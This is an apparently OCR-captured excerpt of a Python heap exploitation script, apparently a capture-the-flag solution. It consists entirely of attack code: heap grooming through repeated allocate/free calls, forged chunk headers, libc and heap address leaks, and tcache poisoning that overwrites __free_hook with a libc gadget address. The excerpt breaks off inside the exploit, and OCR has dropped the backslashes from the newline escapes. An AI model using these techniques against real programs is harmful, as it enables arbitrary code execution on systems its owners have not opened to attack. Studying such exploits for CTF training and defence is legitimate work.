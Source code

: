 ```
        # creat(sh, 0x18  , 'Test' + 'n')

        creat(sh, 0x5E0 , 'chunk_72' + 'n') 
        creat(sh, 0x18  , 'chunk_73' + 'n')
        delete(sh,72)
        creat(sh, 0x618 , 'chunk_72' + 'n')

        creat(sh, 0x28  , 'a' * 8 + p64(0xe1) + p8(0x90))

        creat(sh, 0x28  , 'chunk_75' + 'n')
        creat(sh, 0x28  , 'chunk_76' + 'n')
        creat(sh, 0x28  , 'chunk_77' + 'n')
        creat(sh, 0x28  , 'chunk_78' + 'n')

        for i in range(7):
            delete(sh, i + 64)

        delete(sh, 75)
        delete(sh, 77)

        for i in range(7):
            creat(sh, 0x28 , 'chunk_' + str(64 + i) + 'n')

        creat(sh, 0x618 , 'chunk_75' + 'n')

        creat(sh, 0x28  , 'b' * 8 + p8(0x10))
        creat(sh, 0x28  , 'chunk_1')

        for i in range(7):
            delete(sh, i + 64)

        delete(sh, 78)
        delete(sh, 74)

        for i in range(7):
            creat(sh, 0x28 , 'chunk_' + str(64+i) + 'n')

        creat(sh, 0x28  , p8(0x10))
        creat(sh, 0x28  , 'c' * 0x20 + p64(0xe0))

        creat(sh, 0x4F8  , 'n')
        delete(sh, 80)

        try:
            #Leak info
            creat(sh, 0x18 , 'n')
            show(sh,79)
            libc.address = get_address(sh=sh,info='LIBC_ADDRESS --&gt; ',start_string='',end_string='n',offset=0x7f30e85f4000-0x7f30e87d8ca0)

            creat(sh, 0x38 , 'n')
            delete(sh, 18)
            delete(sh, 81)
            show(sh,79)
            heap_address = get_address(sh=sh,info='HEAP_ADDRESS --&gt; ',start_string='',end_string='n',offset=-0x1270)

            creat(sh, 0x18 , 'n')
            delete(sh, 18)
            delete(sh, 76)
            creat(sh, 0x28, p64(0) + p64(0x31)  + p64(libc.symbols['__free_hook']))
            creat(sh, 0x18 , 'n')
            creat(sh, 0x18 , p64(libc.address+0x000000000012be97))
```